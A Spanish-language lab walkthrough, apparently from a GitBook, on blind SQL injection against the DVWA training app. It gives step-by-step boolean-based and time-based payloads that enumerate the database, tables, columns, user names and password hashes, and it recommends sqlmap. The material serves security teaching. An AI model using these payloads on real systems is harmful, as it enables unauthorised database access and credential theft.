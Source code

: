 # Blind SQLi

El SQLi Blind se considera un ataque a ciegas, es decir, no tenemos errores ni información por parte del servidor. Se pueden dar dos casos:

* **Boolean-based Blind**: donde obtenemos respuestas True/False en función del resultado de la consulta SQL. Dichos cambios son visibles en la página.
* **Time-based blind**: sin cambio para la salida de la condición True/False, basándose en el tiempo de respuesta.

## Boolean-based Blind

En la primera prueba nos encontramos con un input que si introduces un ID de usuario válido te dice si existe o no. Con esta lógica, tenemos que crear consultas que nos devuelvan True/False para ir adivinando la información que hay en la base de datos.

![](<../.gitbook/assets/1 (20).png>)

![](<../.gitbook/assets/2 (3).png>)

Como vemos en la primera prueba, que 1=1 nos devuelve un True al existir la igualdad y pasa lo contrario cuando hacemos 1=2.

![](<../.gitbook/assets/4 (5).png>)

![](<../.gitbook/assets/3 (16).png>)

Vamos a ver los diferentes comandos para poder hacer una Blind manualmente, aunque para estos casos es recomendable usar herramientas tipo [SQLMAP](https://sqlmap.org/) por el ahorro de tiempo. (No se van a poner capturas por su mala lectura de código).

Obtenemos la versión de MySQL; en este caso, la versión del servidor es 5, por lo que la segunda consulta nos devuelve True:

```sql
1' AND substring(version(),1,1)=4# Version 4 False
1' AND substring(version(),1,1)=5# Version 5 True
```

Para obtener las siguientes partes de la versión, tenemos que ir desplazando el SUBSTRING, aumentando el primer parámetro:

```sql
1' AND substring(version(),2,1)="."#
1' AND substring(version(),3,1)=5#
```

Lo siguiente que necesitamos es saber las tablas y columnas, por lo que necesitamos saber si tiene soporte para subquery:

```sql
1' AND (select 1)=1#
```

Una vez que disponemos de subquery, vamos a averiguar el tamaño del nombre de la base de datos de la tabla que está usando el SELECT, viendo que el nombre de la base de datos es 4.

```sql
1' AND (SELECT LENGTH(database()))=1# False
1' AND (SELECT LENGTH(database()))=2# False
1' AND (SELECT LENGTH(database()))=3# False
1' AND (SELECT LENGTH(database()))=4# True
```

Teniendo su tamaño, queremos obtener el nombre de la base de datos. Para ello, usamos la función ASCII de MySQL para convertir el valor del SUBSTRING a número [ASCII](https://www.rapidtables.com/code/text/ascii-table.html), más fácil de comparar. Empezamos en el primer carácter en minúsculas, que es el 97, y vamos subiendo el valor hasta obtener un False. El primer False es el carácter que buscamos.

```sql
1' AND (SELECT ASCII(SUBSTRING(database(), 1, 1)))>97# True
1' AND (SELECT ASCII(SUBSTRING(database(), 1, 1)))>98# True
1' AND (SELECT ASCII(SUBSTRING(database(), 1, 1)))>99# True
1' AND (SELECT ASCII(SUBSTRING(database(), 1, 1)))>100# False
```

Por lo que obtenemos que la primera letra es la "d". Seguimos con la siguiente letra y, como en la versión, cambiamos la posición del substring y comenzamos la búsqueda.

```sql
1' AND (SELECT ASCII(SUBSTRING(database(), 2, 1)))>97# True
.....
1' AND (SELECT ASCII(SUBSTRING(database(), 2, 1)))>116# True
1' AND (SELECT ASCII(SUBSTRING(database(), 2, 1)))>117# True
1' AND (SELECT ASCII(SUBSTRING(database(), 2, 1)))>118# False
```

Ya tenemos nuestra "v". Ahora nos quedaría repetir estos pasos hasta finalizar todos los caracteres. Como en el ejemplo anterior de SQL, ahora necesitamos saber la cantidad de tablas que tiene y sus nombres, por lo que empezamos contando cuántas tablas tiene la base de datos.

```sql
1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())=1# False
1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())=2# True
```

Ahora que sabemos cuántas tablas tenemos, podemos obtener sus nombres. Pero antes, tenemos que saber la longitud de los nombres. Para acceder a las diferentes tablas, lo hacemos con LIMIT según el siguiente ejemplo:

```sql
SELECT * FROM table_name LIMIT 0,1
// Seleccionamos solo la primera tabla

SELECT * FROM table_name LIMIT 1,1
// Seleccionamos solo la segunda tabla

SELECT * FROM table_name LIMIT 0,2
// Seleccionamos la primera y segunda tabla

SELECT * FROM table_name LIMIT 1,2
// Seleccionamos la segunda y tercera tabla
```

Repetimos el proceso de ir contando hasta dar con el número total de caracteres:

```sql
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=1# False
....
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=9# True


1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)=1# False
...
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)=5# True
```

Para obtener el nombre de la tabla, podemos usar las funciones ASCII y SUBSTRING de antes o usar LIKE, como vamos a ver a continuación:

```sql
1' AND (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1) LIKE 'a%'# False
...
1' AND (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1) LIKE 'u%'# True
```

Vamos repitiendo con las siguientes letras hasta completar las 5 que hemos obtenido en el paso anterior:

```sql
1' AND (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1) LIKE 'users'#
```

Vamos a obtener el número de columnas que tiene la tabla y después su longitud:

```sql
1' AND (SELECT COUNT(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='users')=1# False
..
1' AND (SELECT COUNT(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='users')=8# True
```

Ahora que sabemos cuántas columnas tiene la tabla "users", vamos a determinar la longitud de cada columna:

```sql
1' AND (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='users' LIMIT 0,1)=1# False
...
1' AND (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='users' LIMIT 0,1)=7# True
```

Tendremos que repetir este proceso para todas las columnas, aumentando el límite como ya hicimos antes.

Cuando tenemos las columnas y sus longitudes, ya podemos empezar a recorrerlas hasta obtener los nombres. Podemos hacerlo con las funciones ASCII y SUBSTRING o con LIKE:

```sql
1' AND (SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='users' LIMIT 3,1) LIKE 'u%'# True
...
1' AND (SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='users' LIMIT 3,1) LIKE 'user%'# True
```

Ahora que ya tenemos toda la estructura de la base de datos, tenemos que extraer los datos. Así que volvemos a repetir el mismo procedimiento:

* dvwa
  * gestbook
  * users
    * user
    * password

Para obtener el total de usuarios disponibles, contamos el total de filas:

```sql
1 ' AND (SELECT count(user) FROM users)=1# False
...
1 ' AND (SELECT count(user) FROM users)=5# True
```

Recuperamos el tamaño del primer usuario:

```sql
1' AND (SELECT LENGTH(user) FROM users LIMIT 1)=1# False
...
1' AND (SELECT LENGTH(user) FROM users LIMIT 1)=5# True
```

Recuperamos el tamaño del password del primer usuario:

```sql
1' AND (SELECT LENGTH(password) FROM users LIMIT 1)=1# False
...
1' AND (SELECT LENGTH(password) FROM users LIMIT 1)=32# True
```

Para recuperar el resto de los usuarios, vamos jugando con LIMIT como hemos estado haciendo hasta ahora. Para finalizar, ya solo nos queda obtener los datos de esos dos campos.

Recuperamos el usuario:

```sql
1' AND (SELECT user FROM users LIMIT 1) LIKE 'a%'# True
...
1' AND (SELECT user FROM users LIMIT 1) LIKE 'admin%'# True
```

Recuperamos el password:

```sql
1' AND (SELECT password FROM users LIMIT 1) LIKE '5%'# True
...
1' AND (SELECT password FROM users LIMIT 1) LIKE '5f4dcc3b5aa765d61d8327deb882cf99%'# True
```

## Time-based Blind

En DVWA podemos resolver los tres niveles con Boolean-based Blind, pero vamos a hacer unos pequeños ejemplos de cómo hacer Time-based Blind. Para esto, tenemos que usar el tiempo y comprobar mediante un IF si el tiempo de retardo es el marcado en BENCHMARK es igual para ver si son True o False.

Obtener la versión de la base de datos:

```sql
1' UNION SELECT IF(SUBSTRING(version(),1,1)=4,BENCHMARK(5000000,MD5(CHAR(1))),null),null# False
...
1' UNION SELECT IF(SUBSTRING(version(),1,1)=5,BENCHMARK(5000000,MD5(CHAR(1))),null),null# True
```

Tamaño del nombre de la base de datos:

```sql
1' UNION SELECT IF(((SELECT LENGTH(database()))=1),BENCHMARK(5000000,MD5(CHAR(1))),null),null# True
...
1' UNION SELECT IF(((SELECT LENGTH(database()))=4),BENCHMARK(5000000,MD5(CHAR(1))),null),null# True
```

Tendríamos que repetir todo el proceso que hemos realizado con la otra blind, pero además de ir contando verdadero o falso, hay que esperar el tiempo que le pongamos a BENCHMARK. Por lo tanto, es un proceso muy largo y costoso, y en estos casos, es preferible usar una herramienta como SQLMAP si es posible.

## Medio-Alto

Los ejercicios de nivel medio y difícil se resuelven con sqlmap exactamente igual que los anteriores o a mano realizando todo el proceso que acabamos de ver. Sin embargo, es importante tener en cuenta que el tiempo requerido para completar estos ataques de forma manual puede ser considerablemente largo. Por lo tanto, la utilización de herramientas automatizadas como SQLMAP puede ser una opción más eficiente y efectiva en estos casos.
